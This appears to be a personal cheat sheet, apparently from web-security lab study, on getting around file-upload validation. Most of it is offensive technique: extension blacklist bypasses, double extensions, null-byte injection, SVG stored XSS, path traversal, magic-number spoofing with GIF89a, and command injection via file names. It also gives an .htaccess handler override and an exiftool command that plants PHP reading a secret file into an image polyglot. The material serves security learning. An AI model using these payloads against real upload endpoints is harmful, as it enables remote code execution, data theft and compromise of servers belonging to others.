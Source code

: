 every file upload function has : 
-file name
-file type
-magic number
-file content
-file size


validation : 
-Black list : ^.*\.(php|php1...............)  : try PHP,(pht,PHT : if the server is linux apache
if use iis windows server , try this : .asa .cer

-to make it stored xss ,try use this : .eml (just for enternet explorer)

-White list : you can try write the white word in the name of the file
or like that file.jpg.php

-Null byte injection : 
file.php%001.jpg or file.php\x00.jpg

-svg : you can make it stored xss

-Directory traversel : try do ../../../index.php

-uplaod a image (using imageMagic) try his cve to find ssrf and rce

-validate in magic numbers : try start your file content with GIF89a;(when it is a image)

-zip files : you know that your file name will handle with commande line
             so you can breack the commande like that : filename;cmd;cmd




 -- in the response , header reveal that you are talking to an apache server (the idea is upload 2 files)
    ?filename=.htaccess
    ?content-type=text/plain
    the content of the first file :  AddType application/x-httpd-php .l33t   

    2nd : 
     filename=file.133t

     and see the result

  -- when the validation in the data of the file (so if he need a picture he will validate for those stringer things)
     so you can inject a php file in a image and why not the output in php file (because the validation not in the file name)
     using this cmd : exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

change the content type to image/jpeg

 

